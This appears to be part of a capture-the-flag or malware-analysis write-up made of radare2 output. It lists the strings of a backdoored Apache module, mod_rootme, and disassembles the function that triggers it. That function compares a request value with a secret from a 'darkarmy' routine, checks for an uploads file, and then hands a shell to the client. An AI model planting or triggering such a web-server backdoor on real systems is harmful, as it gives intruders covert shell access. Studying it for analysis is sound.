668 0x00008ae4 0x0000105a  16  17 (.debug_str) ascii filter_init_func
669 0x00008af5 0x0000106b  13  14 (.debug_str) ascii override_opts
670 0x00008b03 0x00001079   4   5 (.debug_str) ascii flag
671 0x00008b08 0x0000107e   5   6 (.debug_str) ascii csize
672 0x00008b0e 0x00001084   8   9 (.debug_str) ascii hostinfo
673 0x00008b17 0x0000108d   8   9 (.debug_str) ascii eos_sent
674 0x00008b20 0x00001096  12  13 (.debug_str) ascii useragent_ip
675 0x00008b2d 0x000010a3   8   9 (.debug_str) ascii __tzname
676 0x00008b36 0x000010ac   5   6 (.debug_str) ascii level
677 0x00008b3c 0x000010b2   5   6 (.debug_str) ascii split
678 0x00008b42 0x000010b8   7   8 (.debug_str) ascii no_args
679 0x00008b4a 0x000010c0  17  18 (.debug_str) ascii AP_CONN_KEEPALIVE
680 0x00008b5c 0x000010d2   8   9 (.debug_str) ascii servname
681 0x00008b65 0x000010db  11  12 (.debug_str) ascii APR_UNKFILE
682 0x00008b71 0x000010e7   5   6 (.debug_str) ascii start
683 0x00008b77 0x000010ed  15  16 (.debug_str) ascii ap_filter_rec_t
684 0x00008b87 0x000010fd  12  13 (.debug_str) ascii __ss_padding
685 0x00008b94 0x0000110a  22  23 (.debug_str) ascii clogging_input_filters
686 0x00008bab 0x00001121   9  10 (.debug_str) ascii socketdes
687 0x00008bb5 0x0000112b  27  28 (.debug_str) ascii CONN_STATE_WRITE_COMPLETION
688 0x00008bd1 0x00001147  10  11 (.debug_str) ascii local_host
689 0x00008bdc 0x00001152  13  14 (.debug_str) ascii err_directive
690 0x00008bea 0x00001160  14  15 (.debug_str) ascii ap_filter_type
691 0x00008bf9 0x0000116f   4   5 (.debug_str) ascii plog
692 0x00008bfe 0x00001174  15  16 (.debug_str) ascii AP_MODE_GETLINE
693 0x00008c0e 0x00001184  23  24 (.debug_str) ascii local_interface_unknown
694 0x00008c26 0x0000119c  12  13 (.debug_str) ascii apr_socket_t
695 0x00008c33 0x000011a9   9  10 (.debug_str) ascii TAKE_ARGV
696 0x00008c3d 0x000011b3   5   6 (.debug_str) ascii state
697 0x00008c43 0x000011b9   7   8 (.debug_str) ascii APR_BLK
698 0x00008c4b 0x000011c1   7   8 (.debug_str) ascii APR_LNK
699 0x00008c53 0x000011c9  16  17 (.debug_str) ascii sockaddr_storage
700 0x00008c64 0x000011da   5   6 (.debug_str) ascii sense
701 0x00008c6a 0x000011e0   4   5 (.debug_str) ascii path
702 0x00008c6f 0x000011e5  11  12 (.debug_str) ascii apr_finfo_t
703 0x00008c7b 0x000011f1  20  21 (.debug_str) ascii ap_bucket_type_error
704 0x00008c90 0x00001206  13  14 (.debug_str) ascii expecting_100
705 0x00008c9e 0x00001214  11  12 (.debug_str) ascii remote_host
706 0x00008caa 0x00001220  12  13 (.debug_str) ascii server_admin
707 0x00008cb7 0x0000122d  13  14 (.debug_str) ascii rootme_module
708 0x00008cc5 0x0000123b  22  23 (.debug_str) ascii apr_hook_debug_current
709 0x00008cdc 0x00001252  19  20 (.debug_str) ascii apr_interval_time_t
710 0x00008cf0 0x00001266  11  12 (.debug_str) ascii trailers_in
711 0x00008cfc 0x00001272   7   8 (.debug_str) ascii APR_CHR
712 0x00008d04 0x0000127a  16  17 (.debug_str) ascii limit_req_fields
713 0x00008d15 0x0000128b  22  23 (.debug_str) ascii apr_bucket_type_socket
714 0x00008d2c 0x000012a2  16  17 (.debug_str) ascii __builtin_strcmp
715 0x00008d3d 0x000012b3  17  18 (.debug_str) ascii ap_loaded_modules
716 0x00008d4f 0x000012c5   9  10 (.debug_str) ascii apr_uid_t
717 0x00008d59 0x000012cf  18  19 (.debug_str) ascii apr_bucket_brigade
718 0x00008d6c 0x000012e2   6   7 (.debug_str) ascii keylen
719 0x00008d73 0x000012e9   7   8 (.debug_str) ascii context
720 0x00008d7b 0x000012f1   4   5 (.debug_str) ascii last
721 0x00008d80 0x000012f6   8   9 (.debug_str) ascii uint32_t
722 0x00008d89 0x000012ff  14  15 (.debug_str) ascii current_thread
723 0x00008d98 0x0000130e   6   7 (.debug_str) ascii device
724 0x00008d9f 0x00001315   7   8 (.debug_str) ascii clength
725 0x00008da7 0x0000131d  21  22 (.debug_str) ascii rootme_register_hooks
726 0x00008dbd 0x00001333  17  18 (.debug_str) ascii CONN_STATE_LINGER
727 0x00008dcf 0x00001345  10  11 (.debug_str) ascii apr_size_t
728 0x00008dda 0x00001350  24  25 (.debug_str) ascii rootme_post_read_request
729 0x00008df3 0x00001369  18  19 (.debug_str) ascii AP_FTYPE_TRANSCODE
730 0x00008e06 0x0000137c  18  19 (.debug_str) ascii ap_module_symbol_t
731 0x00008e19 0x0000138f  13  14 (.debug_str) ascii server_scheme
732 0x00008e27 0x0000139d  11  12 (.debug_str) ascii conn_config
733 0x00008e33 0x000013a9  20  21 (.debug_str) ascii apr_bucket_type_heap
734 0x00008e48 0x000013be  10  11 (.debug_str) ascii ap_logconf
735 0x00008e53 0x000013c9   8   9 (.debug_str) ascii filehand
736 0x00008e5c 0x000013d2   4   5 (.debug_str) ascii frec
737 0x00008e61 0x000013d7  15  16 (.debug_str) ascii server_addr_rec
738 0x00008e71 0x000013e7  19  20 (.debug_str) ascii ap_init_filter_func
739 0x00008e85 0x000013fb  13  14 (.debug_str) ascii sin6_scope_id
740 0x00008e93 0x00001409  12  13 (.debug_str) ascii conn_sense_e
741 0x00008ea0 0x00001416   8   9 (.debug_str) ascii sin_addr
742 0x00008ea9 0x0000141f  13  14 (.debug_str) ascii ap_top_module
743 0x00008eb7 0x0000142d  20  21 (.debug_str) ascii ap_preloaded_modules
744 0x00008ecc 0x00001442   7   8 (.debug_str) ascii __dev_t
745 0x00008ed4 0x0000144a  20  21 (.debug_str) ascii CONN_STATE_SUSPENDED
746 0x00008ee9 0x0000145f  10  11 (.debug_str) ascii wild_names
747 0x00008ef4 0x0000146a   5   6 (.debug_str) ascii getch
748 0x00008efa 0x00001470  17  18 (.debug_str) ascii ap_in_filter_func
749 0x00008f0c 0x00001482   9  10 (.debug_str) ascii in_addr_t
750 0x00008f16 0x0000148c  15  16 (.debug_str) ascii err_headers_out
751 0x00008f26 0x0000149c  17  18 (.debug_str) ascii ap_old_write_func
752 0x00008f38 0x000014ae  15  16 (.debug_str) ascii lookup_defaults
753 0x00008f48 0x000014be  11  12 (.debug_str) ascii __u6_addr16
754 0x00008f54 0x000014ca  18  19 (.debug_str) ascii AP_MODE_EXHAUSTIVE
755 0x00008f67 0x000014dd   7   8 (.debug_str) ascii APR_DIR
756 0x00008f6f 0x000014e5  20  21 (.debug_str) ascii apr_bucket_type_pool
757 0x00008f84 0x000014fa  19  20 (.debug_str) ascii remote_addr_unknown
758 0x00008f98 0x0000150e  16  17 (.debug_str) ascii cmd_parms_struct
759 0x00008fa9 0x0000151f   8   9 (.debug_str) ascii proxyreq
760 0x00008fb2 0x00001528  22  23 (.debug_str) ascii apr_hook_debug_enabled
761 0x00008fc9 0x0000153f   9  10 (.debug_str) ascii keepalive
762 0x00008fd3 0x00001549   9  10 (.debug_str) ascii kept_body
763 0x00008fdd 0x00001553   8   9 (.debug_str) ascii local_ip
764 0x00008fe6 0x0000155c  11  12 (.debug_str) ascii __u6_addr32
765 0x00008ff2 0x00001568  11  12 (.debug_str) ascii read_length
766 0x00008ffe 0x00001574   5   6 (.debug_str) ascii notes
767 0x00009004 0x0000157a  11  12 (.debug_str) ascii base_server
768 0x00009010 0x00001586  16  17 (.debug_str) ascii defn_line_number
769 0x00009021 0x00001597   9  10 (.debug_str) ascii client_ip
770 0x0000902b 0x000015a1  15  16 (.debug_str) ascii sock_userdata_t
771 0x0000903b 0x000015b1  20  21 (.debug_str) ascii ap_filter_provider_t
772 0x00009050 0x000015c6   4   5 (.debug_str) ascii argc
773 0x00009055 0x000015cb   8   9 (.debug_str) ascii htaccess
774 0x0000905e 0x000015d4   5   6 (.debug_str) ascii ctime
775 0x00009064 0x000015da  13  14 (.debug_str) ascii dns_looked_up
776 0x00009072 0x000015e8   5   6 (.debug_str) ascii group
777 0x00009078 0x000015ee   5   6 (.debug_str) ascii query
778 0x0000907e 0x000015f4  12  13 (.debug_str) ascii content_type
779 0x0000908b 0x00001601   5   6 (.debug_str) ascii finfo
780 0x00009091 0x00001607   7   8 (.debug_str) ascii ITERATE
781 0x00009099 0x0000160f  10  11 (.debug_str) ascii __daylight
782 0x000090a4 0x0000161a  16  17 (.debug_str) ascii ap_method_list_t
783 0x000090b5 0x0000162b   7   8 (.debug_str) ascii handler
784 0x000090bd 0x00001633  10  11 (.debug_str) ascii apr_time_t
785 0x000090c8 0x0000163e  14  15 (.debug_str) ascii apr_filetype_e
786 0x000090d7 0x0000164d  17  18 (.debug_str) ascii vhost_lookup_data
787 0x000090e9 0x0000165f   8   9 (.debug_str) ascii filetype
788 0x000090f2 0x00001668  13  14 (.debug_str) ascii client_socket
789 0x00009100 0x00001676  25  26 (.debug_str) ascii apr_bucket_type_transient
790 0x0000911a 0x00001690  18  19 (.debug_str) ascii CONN_SENSE_DEFAULT
791 0x0000912d 0x000016a3   9  10 (.debug_str) ascii temp_pool
792 0x00009137 0x000016ad  23  24 (.debug_str) ascii program_invocation_name
793 0x0000914f 0x000016c5   7   8 (.debug_str) ascii __gid_t
794 0x00009157 0x000016cd   7   8 (.debug_str) ascii inherit
795 0x0000915f 0x000016d5  11  12 (.debug_str) ascii sin6_family
796 0x0000916b 0x000016e1   8   9 (.debug_str) ascii virthost
797 0x00009174 0x000016ea  11  12 (.debug_str) ascii status_line
798 0x00009180 0x000016f6  18  19 (.debug_str) ascii canonical_filename
799 0x00009193 0x00001709   6   7 (.debug_str) ascii parent
800 0x0000919a 0x00001710  11  12 (.debug_str) ascii ap_filter_t
801 0x000091a6 0x0000171c  17  18 (.debug_str) ascii APR_NONBLOCK_READ
802 0x000091b8 0x0000172e  23  24 (.debug_str) ascii CONN_STATE_LINGER_SHORT
803 0x000091d0 0x00001746   8   9 (.debug_str) ascii args_how
804 0x000091d9 0x0000174f  20  21 (.debug_str) ascii apr_bucket_type_mmap
805 0x000091ee 0x00001764   7   8 (.debug_str) ascii in_func
806 0x000091f6 0x0000176c  11  12 (.debug_str) ascii apr_int64_t
807 0x00009202 0x00001778   6   7 (.debug_str) ascii errmsg
808 0x00009209 0x0000177f  25  26 (.debug_str) ascii ap_hook_post_read_request
809 0x00009223 0x00001799  22  23 (.debug_str) ascii keep_alive_timeout_set
810 0x0000923a 0x000017b0   7   8 (.debug_str) ascii NO_ARGS
811 0x00009242 0x000017b8  10  11 (.debug_str) ascii local_addr
812 0x0000924d 0x000017c3   6   7 (.debug_str) ascii log_id
813 0x00009254 0x000017ca   8   9 (.debug_str) ascii xlimited
814 0x0000925d 0x000017d3  15  16 (.debug_str) ascii vlist_validator
815 0x0000926d 0x000017e3  21  22 (.debug_str) ascii apr_bucket_type_flush
816 0x00009283 0x000017f9   8   9 (.debug_str) ascii elt_size
817 0x0000928c 0x00001802  13  14 (.debug_str) ascii apr_socklen_t
818 0x0000929a 0x00001810  11  12 (.debug_str) ascii core_module
819 0x000092a6 0x0000181c  16  17 (.debug_str) ascii AP_FTYPE_NETWORK
820 0x000092b7 0x0000182d  11  12 (.debug_str) ascii remote_addr
821 0x000092c3 0x00001839  14  15 (.debug_str) ascii used_path_info
822 0x000092d2 0x00001848  16  17 (.debug_str) ascii in6addr_loopback
823 0x000092e3 0x00001859   9  10 (.debug_str) ascii host_port
824 0x000092ed 0x00001863  16  17 (.debug_str) ascii content_encoding
825 0x000092fe 0x00001874   9  10 (.debug_str) ascii error_log
826 0x00009308 0x0000187e  14  15 (.debug_str) ascii ap_directive_t
827 0x00009317 0x0000188d   5   6 (.debug_str) ascii mtime
828 0x0000931d 0x00001893  14  15 (.debug_str) ascii apr_sockaddr_t
829 0x0000932c 0x000018a2  22  23 (.debug_str) ascii data_in_output_filters
830 0x00009343 0x000018b9   5   6 (.debug_str) ascii TAKE1
831 0x00009349 0x000018bf   5   6 (.debug_str) ascii TAKE2
832 0x0000934f 0x000018c5   5   6 (.debug_str) ascii TAKE3
833 0x00009355 0x000018cb   7   8 (.debug_str) ascii __ino_t
834 0x0000935d 0x000018d3  16  17 (.debug_str) ascii allowed_xmethods
835 0x0000936e 0x000018e4   4   5 (.debug_str) ascii user
836 0x00009373 0x000018e9  12  13 (.debug_str) ascii req_override
837 0x00009380 0x000018f6  11  12 (.debug_str) ascii in6addr_any
838 0x0000938c 0x00001902  11  12 (.debug_str) ascii client_addr
839 0x00009398 0x0000190e  11  12 (.debug_str) ascii method_mask
840 0x000093a4 0x0000191a  15  16 (.debug_str) ascii server_hostname
841 0x000093b4 0x0000192a   9  10 (.debug_str) ascii defn_name
842 0x000093be 0x00001934  10  11 (.debug_str) ascii apr_pool_t
843 0x000093c9 0x0000193f   4   5 (.debug_str) ascii main
844 0x000093ce 0x00001944   6   7 (.debug_str) ascii method
845 0x000093d5 0x0000194b   7   8 (.debug_str) ascii __in6_u
846 0x000093dd 0x00001953   8   9 (.debug_str) ascii ITERATE2
847 0x000093e6 0x0000195c   4   5 (.debug_str) ascii prev
848 0x000093eb 0x00001961  11  12 (.debug_str) ascii is_metadata
849 0x000093f7 0x0000196d   9  10 (.debug_str) ascii cipherlen
850 0x00009401 0x00001977  12  13 (.debug_str) ascii trailers_out
851 0x0000940e 0x00001984   9  10 (.debug_str) ascii sin6_port
852 0x00009547 0x0000012f   4   5 (.debug_loc) ascii \b $u
853 0x0000954e 0x00000136   5   6 (.debug_loc) ascii \b $+(
854 0x00009577 0x0000015f   5   6 (.debug_loc) ascii \b $+(
855 0x00009670 0x00000258   6  14 (.debug_loc) utf16le \ts ࠤ☠垟 blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols,CJK Unified Ideographs
856 0x0000968b 0x00000273   5  12 (.debug_loc) utf16le \ts ࠤ☠ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols
857 0x000096d9 0x000002c1   6  14 (.debug_loc) utf16le \ts ࠤ☠꺟 blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols,Hangul Syllables
858 0x000096f4 0x000002dc   5  12 (.debug_loc) utf16le \ts ࠤ☠ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols
859 0x00009726 0x0000030e   6   7 (.debug_loc) ascii \b $\b &
860 0x00009b74 0x0000075c   8   9 (.debug_loc) ascii \b $\b &3$
861 0x00009b89 0x00000771   4   5 (.debug_loc) ascii \b $|
862 0x00009b90 0x00000778   5   6 (.debug_loc) ascii \b $+(
863 0x00009bbd 0x000007a5   4   5 (.debug_loc) ascii \b $|
864 0x00009bc4 0x000007ac   5   6 (.debug_loc) ascii \b $+(
865 0x00009c55 0x0000083d   8   9 (.debug_loc) ascii \b $\b &3$
866 0x00009c69 0x00000851   6   7 (.debug_loc) ascii \b $\b &
867 0x00009c92 0x0000087a   6   7 (.debug_loc) ascii \b $\b &
868 0x00009cb9 0x000008a1   6  14 (.debug_loc) utf16le \t| ࠤ☠ᆟ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols,Hangul Jamo
869 0x00009cd4 0x000008bc   5  12 (.debug_loc) utf16le \t| ࠤ☠ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols
870 0x00009d07 0x000008ef   8   9 (.debug_loc) ascii \b $\b &3$
871 0x00009d1b 0x00000903   6   7 (.debug_loc) ascii \b $\b &
872 0x00009d44 0x0000092c   6   7 (.debug_loc) ascii \b $\b &
873 0x00009d6b 0x00000953   6  14 (.debug_loc) utf16le \t| ࠤ☠ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols,Private Use Area
874 0x00009d86 0x0000096e   5  12 (.debug_loc) utf16le \t| ࠤ☠ blocks=Basic Latin,General Punctuation,Samaritan,Miscellaneous Symbols
875 0x0000a04a 0x00000c32   6   7 (.debug_loc) ascii \b $\b &
876 0x0000a091 0x00000c79   6   7 (.debug_loc) ascii \b $\b &
877 0x0000af39 0x00000001  10  11 (.strtab) ascii crtstuff.c
878 0x0000af44 0x0000000c  12  13 (.strtab) ascii __JCR_LIST__
879 0x0000af51 0x00000019  20  21 (.strtab) ascii deregister_tm_clones
880 0x0000af66 0x0000002e  21  22 (.strtab) ascii __do_global_dtors_aux
881 0x0000af7c 0x00000044  14  15 (.strtab) ascii completed.7561
882 0x0000af8b 0x00000053  38  39 (.strtab) ascii __do_global_dtors_aux_fini_array_entry
883 0x0000afb2 0x0000007a  11  12 (.strtab) ascii frame_dummy
884 0x0000afbe 0x00000086  30  31 (.strtab) ascii __frame_dummy_init_array_entry
885 0x0000afdd 0x000000a5  12  13 (.strtab) ascii mrm_server.c
886 0x0000afea 0x000000b2  12  13 (.strtab) ascii mod_rootme.c
887 0x0000aff7 0x000000bf  21  22 (.strtab) ascii rootme_register_hooks
888 0x0000b00d 0x000000d5  18  19 (.strtab) ascii rootme_post_config
889 0x0000b020 0x000000e8  24  25 (.strtab) ascii rootme_post_read_request
890 0x0000b039 0x00000101  13  14 (.strtab) ascii __FRAME_END__
891 0x0000b047 0x0000010f  11  12 (.strtab) ascii __JCR_END__
892 0x0000b053 0x0000011b  12  13 (.strtab) ascii __dso_handle
893 0x0000b060 0x00000128   8   9 (.strtab) ascii _DYNAMIC
894 0x0000b069 0x00000131  18  19 (.strtab) ascii __GNU_EH_FRAME_HDR
895 0x0000b07c 0x00000144  11  12 (.strtab) ascii __TMC_END__
896 0x0000b088 0x00000150  21  22 (.strtab) ascii _GLOBAL_OFFSET_TABLE_
897 0x0000b09e 0x00000166  17  18 (.strtab) ascii free@@GLIBC_2.2.5
898 0x0000b0b0 0x00000178  17  18 (.strtab) ascii recv@@GLIBC_2.2.5
899 0x0000b0c2 0x0000018a  20  21 (.strtab) ascii strncpy@@GLIBC_2.2.5
900 0x0000b0d7 0x0000019f  14  15 (.strtab) ascii process_client
901 0x0000b0e6 0x000001ae  27  28 (.strtab) ascii _ITM_deregisterTMCloneTable
902 0x0000b102 0x000001ca  18  19 (.strtab) ascii write@@GLIBC_2.2.5
903 0x0000b115 0x000001dd   6   7 (.strtab) ascii _edata
904 0x0000b11c 0x000001e4  21  22 (.strtab) ascii shutdown@@GLIBC_2.2.5
905 0x0000b132 0x000001fa   5   6 (.strtab) ascii _fini
906 0x0000b138 0x00000200   7   8 (.strtab) ascii pidlist
907 0x0000b140 0x00000208   6   7 (.strtab) ascii pipe_B
908 0x0000b147 0x0000020f  18  19 (.strtab) ascii chdir@@GLIBC_2.2.5
909 0x0000b15a 0x00000222  27  28 (.strtab) ascii __stack_chk_fail@@GLIBC_2.4
910 0x0000b176 0x0000023e  17  18 (.strtab) ascii dup2@@GLIBC_2.2.5
911 0x0000b188 0x00000250  17  18 (.strtab) ascii send@@GLIBC_2.2.5
912 0x0000b19a 0x00000262  23  24 (.strtab) ascii __fdelt_chk@@GLIBC_2.15
913 0x0000b1b2 0x0000027a  19  20 (.strtab) ascii ap_hook_post_config
914 0x0000b1c6 0x0000028e  18  19 (.strtab) ascii ioctl@@GLIBC_2.2.5
915 0x0000b1d9 0x000002a1  12  13 (.strtab) ascii runshell_pty
916 0x0000b1e6 0x000002ae  18  19 (.strtab) ascii close@@GLIBC_2.2.5
917 0x0000b1f9 0x000002c1  17  18 (.strtab) ascii pipe@@GLIBC_2.2.5
918 0x0000b20b 0x000002d3  19  20 (.strtab) ascii setsid@@GLIBC_2.2.5
919 0x0000b21f 0x000002e7  17  18 (.strtab) ascii read@@GLIBC_2.2.5
920 0x0000b231 0x000002f9  19  20 (.strtab) ascii putenv@@GLIBC_2.2.5
921 0x0000b245 0x0000030d  25  26 (.strtab) ascii ap_hook_post_read_request
922 0x0000b25f 0x00000327  19  20 (.strtab) ascii strcmp@@GLIBC_2.2.5
923 0x0000b273 0x0000033b  13  14 (.strtab) ascii rootme_module
924 0x0000b281 0x00000349  14  15 (.strtab) ascii __gmon_start__
925 0x0000b290 0x00000358  13  14 (.strtab) ascii shell_spooler
926 0x0000b29e 0x00000366  17  18 (.strtab) ascii kill@@GLIBC_2.2.5
927 0x0000b2b0 0x00000378  20  21 (.strtab) ascii openpty@@GLIBC_2.2.5
928 0x0000b2c5 0x0000038d  19  20 (.strtab) ascii select@@GLIBC_2.2.5
929 0x0000b2d9 0x000003a1  19  20 (.strtab) ascii malloc@@GLIBC_2.2.5
930 0x0000b2ed 0x000003b5   4   5 (.strtab) ascii _end
931 0x0000b2f2 0x000003ba  20  21 (.strtab) ascii ttyname@@GLIBC_2.2.5
932 0x0000b307 0x000003cf  11  12 (.strtab) ascii __bss_start
933 0x0000b313 0x000003db  20  21 (.strtab) ascii waitpid@@GLIBC_2.2.5
934 0x0000b328 0x000003f0  19  20 (.strtab) ascii access@@GLIBC_2.2.5
935 0x0000b33c 0x00000404  11  12 (.strtab) ascii core_module
936 0x0000b348 0x00000410  19  20 (.strtab) ascii _Jv_RegisterClasses
937 0x0000b35c 0x00000424   6   7 (.strtab) ascii pipe_A
938 0x0000b363 0x0000042b  20  21 (.strtab) ascii getppid@@GLIBC_2.2.5
939 0x0000b378 0x00000440  17  18 (.strtab) ascii exit@@GLIBC_2.2.5
940 0x0000b38a 0x00000452  12  13 (.strtab) ascii runshell_raw
941 0x0000b397 0x0000045f  25  26 (.strtab) ascii _ITM_registerTMCloneTable
942 0x0000b3b1 0x00000479   8   9 (.strtab) ascii darkarmy
943 0x0000b3ba 0x00000482  19  20 (.strtab) ascii execlp@@GLIBC_2.2.5
944 0x0000b3ce 0x00000496  27  28 (.strtab) ascii __cxa_finalize@@GLIBC_2.2.5
945 0x0000b3ea 0x000004b2   5   6 (.strtab) ascii _init
946 0x0000b3f0 0x000004b8  17  18 (.strtab) ascii fork@@GLIBC_2.2.5
947 0x0000b403 0x00000001   7   8 (.shstrtab) ascii .symtab
948 0x0000b40b 0x00000009   7   8 (.shstrtab) ascii .strtab
949 0x0000b413 0x00000011   9  10 (.shstrtab) ascii .shstrtab
950 0x0000b41d 0x0000001b  18  19 (.shstrtab) ascii .note.gnu.build-id
951 0x0000b430 0x0000002e   9  10 (.shstrtab) ascii .gnu.hash
952 0x0000b43a 0x00000038   7   8 (.shstrtab) ascii .dynsym
953 0x0000b442 0x00000040   7   8 (.shstrtab) ascii .dynstr
954 0x0000b44a 0x00000048  12  13 (.shstrtab) ascii .gnu.version
955 0x0000b457 0x00000055  14  15 (.shstrtab) ascii .gnu.version_r
956 0x0000b466 0x00000064   9  10 (.shstrtab) ascii .rela.dyn
957 0x0000b470 0x0000006e   5   6 (.shstrtab) ascii .init
958 0x0000b476 0x00000074   4   5 (.shstrtab) ascii .plt
959 0x0000b47b 0x00000079   8   9 (.shstrtab) ascii .plt.got
960 0x0000b484 0x00000082   5   6 (.shstrtab) ascii .text
961 0x0000b48a 0x00000088   5   6 (.shstrtab) ascii .fini
962 0x0000b490 0x0000008e   7   8 (.shstrtab) ascii .rodata
963 0x0000b498 0x00000096  13  14 (.shstrtab) ascii .eh_frame_hdr
964 0x0000b4a6 0x000000a4   9  10 (.shstrtab) ascii .eh_frame
965 0x0000b4b0 0x000000ae  11  12 (.shstrtab) ascii .init_array
966 0x0000b4bc 0x000000ba  11  12 (.shstrtab) ascii .fini_array
967 0x0000b4c8 0x000000c6   4   5 (.shstrtab) ascii .jcr
968 0x0000b4cd 0x000000cb   8   9 (.shstrtab) ascii .dynamic
969 0x0000b4d6 0x000000d4   5   6 (.shstrtab) ascii .data
970 0x0000b4dc 0x000000da   4   5 (.shstrtab) ascii .bss
971 0x0000b4e1 0x000000df   8   9 (.shstrtab) ascii .comment
972 0x0000b4ea 0x000000e8  14  15 (.shstrtab) ascii .debug_aranges
973 0x0000b4f9 0x000000f7  11  12 (.shstrtab) ascii .debug_info
974 0x0000b505 0x00000103  13  14 (.shstrtab) ascii .debug_abbrev
975 0x0000b513 0x00000111  11  12 (.shstrtab) ascii .debug_line
976 0x0000b51f 0x0000011d  10  11 (.shstrtab) ascii .debug_str
977 0x0000b52a 0x00000128  10  11 (.shstrtab) ascii .debug_loc
978 0x0000b535 0x00000133  13  14 (.shstrtab) ascii .debug_ranges

[0x00001ac0]> axt 0x00001c18
sym.rootme_post_read_request 0x1b50 [data] lea rdi, qword str.var_www_html_uploads_whiterose.txt
[0x00001ac0]> pdf @sym.rootme_post_read_request
/ (fcn) sym.rootme_post_read_request 116
|   sym.rootme_post_read_request ();
|           ; DATA XREF from 0x00001a96 (sym.rootme_register_hooks)
|           0x00001b00      55             push rbp
|           0x00001b01      53             push rbx
|           0x00001b02      4889fb         mov rbx, rdi
|           0x00001b05      4883ec08       sub rsp, 8
|           0x00001b09      488b15a81420.  mov rdx, qword [reloc.core_module] ; [0x202fb8:8]=0
|           0x00001b10      488b4708       mov rax, qword [rdi + 8]    ; [0x8:8]=0
|           0x00001b14      48635208       movsxd rdx, dword [rdx + 8] ; [0x8:4]=0
|           0x00001b18      488b4058       mov rax, qword [rax + 0x58] ; [0x58:8]=0 ; 'X'
|           0x00001b1c      488b04d0       mov rax, qword [rax + rdx*8]
|           0x00001b20      4885c0         test rax, rax
|       ,=< 0x00001b23      7403           je 0x1b28
|       |   0x00001b25      8b6808         mov ebp, dword [rax + 8]    ; [0x8:4]=0
|       |   ; JMP XREF from 0x00001b23 (sym.rootme_post_read_request)
|       `-> 0x00001b28      31c0           xor eax, eax
|           0x00001b2a      e891ffffff     call sym.darkarmy
|           0x00001b2f      488bbb500100.  mov rdi, qword [rbx + 0x150] ; [0x150:8]=4
|           0x00001b36      4889c6         mov rsi, rax
|           0x00001b39      e8c2f3ffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
|           0x00001b3e      85c0           test eax, eax
|       ,=< 0x00001b40      740e           je 0x1b50
|       |   ; JMP XREF from 0x00001b61 (sym.rootme_post_read_request)
|      .--> 0x00001b42      4883c408       add rsp, 8
|      :|   0x00001b46      b8ffffffff     mov eax, 0xffffffff         ; -1
|      :|   0x00001b4b      5b             pop rbx
|      :|   0x00001b4c      5d             pop rbp
|      :|   0x00001b4d      c3             ret
       :|   0x00001b4e      6690           nop
|      :|   ; JMP XREF from 0x00001b40 (sym.rootme_post_read_request)
|      :`-> 0x00001b50      488d3dc10000.  lea rdi, qword str.var_www_html_uploads_whiterose.txt ; 0x1c18 ; "/var/www/html/uploads/whiterose.txt"
|      :    0x00001b57      31f6           xor esi, esi
|      :    0x00001b59      e8daf3ffff     call sym.imp.access         ; int access(const char *path, int mode)
|      :    0x00001b5e      83f8ff         cmp eax, 0xff
|      `==< 0x00001b61      74df           je 0x1b42
|           0x00001b63      bf00010000     mov edi, 0x100
|           0x00001b68      89ee           mov esi, ebp
|           0x00001b6a      e801f5ffff     call sym.process_client
|           0x00001b6f      31ff           xor edi, edi
\           0x00001b71      e8d2f3ffff     call sym.imp.exit           ; void exit(int status)
[0x00001ac0]> VV @sym.rootme_post_read_request
```


```sh
[0x00001b00]> pdc @sym.rootme_post_read_request
function sym.rootme_post_read_request () {
    //  6 basic blocks

    loc_0x1b00:

  //DATA XREF from 0x00001a96 (sym.rootme_register_hooks)
       push rbp
       push rbx
       rbx = rdi
       rsp -= 8
       rdx = qword [reloc.core_module] //[0x202fb8:8]=0
       rax = qword [rdi + 8]    //[0x8:8]=0
       rdx = dword [rdx + 8]    //[0x8:4]=0
       rax = qword [rax + 0x58] //[0x58:8]=0 ; 'X'
       rax = qword [rax + rdx*8]
       var = rax & rax
       if (!var) goto 0x1b28    //unlikely
       {
        loc_0x1b28:

      //JMP XREF from 0x00001b23 (sym.rootme_post_read_request)
           eax = 0
           sym.darkarmy ()
           rdi = qword [rbx + 0x150] //[0x150:8]=4
           rsi = rax

           int strcmp(const char * s1 : 0x00000004 = ..., const char * s2 : 0x00000000 = .ELF...)
           var = eax & eax
           if (!var) goto 0x1b50    //likely
           {
            loc_0x1b50:

          //JMP XREF from 0x00001b40 (sym.rootme_post_read_request)
               rdi = qword "/var/www/html/uploads/whiterose.txt" //0x1c18 ; str.var_www_html_uploads_whiterose.txt
               esi = 0

               int access(const char * path : 0x00001c18 = /var/www/html/uploa, int mode : 0x00000000 = 1179403647)
               var = eax - 0xff
               if (!var) goto 0x1b42    //unlikely
            loc_0x1b63:

               edi = 0x100
               esi = ebp                //rsp
               sym.process_client ()
               edi = 0

               void exit(int status : 0x00000000 = 1179403647)
            loc_0x1b42:

          //JMP XREF from 0x00001b61 (sym.rootme_post_read_request)
               rsp += 8
               eax = 0xffffffff         //-1
               pop rbx

               return
           } else {
           }
      }
      return;

}
[0x00001b00]> pdf @sym.rootme_post_read_request
            ;-- rip:
/ (fcn) sym.rootme_post_read_request 116
|   sym.rootme_post_read_request ();
|           ; DATA XREF from 0x00001a96 (sym.rootme_register_hooks)
|           0x00001b00      55             push rbp
|           0x00001b01      53             push rbx
|           0x00001b02      4889fb         mov rbx, rdi
|           0x00001b05      4883ec08       sub rsp, 8
|           0x00001b09      488b15a81420.  mov rdx, qword [reloc.core_module] ; [0x202fb8:8]=0
|           0x00001b10      488b4708       mov rax, qword [rdi + 8]    ; [0x8:8]=0
|           0x00001b14      48635208       movsxd rdx, dword [rdx + 8] ; [0x8:4]=0
|           0x00001b18      488b4058       mov rax, qword [rax + 0x58] ; [0x58:8]=0 ; 'X'
|           0x00001b1c      488b04d0       mov rax, qword [rax + rdx*8]
|           0x00001b20      4885c0         test rax, rax
|       ,=< 0x00001b23      7403           je 0x1b28
|       |   0x00001b25      8b6808         mov ebp, dword [rax + 8]    ; [0x8:4]=0
|       |   ; JMP XREF from 0x00001b23 (sym.rootme_post_read_request)
|       `-> 0x00001b28      31c0           xor eax, eax
|           0x00001b2a      e891ffffff     call sym.darkarmy
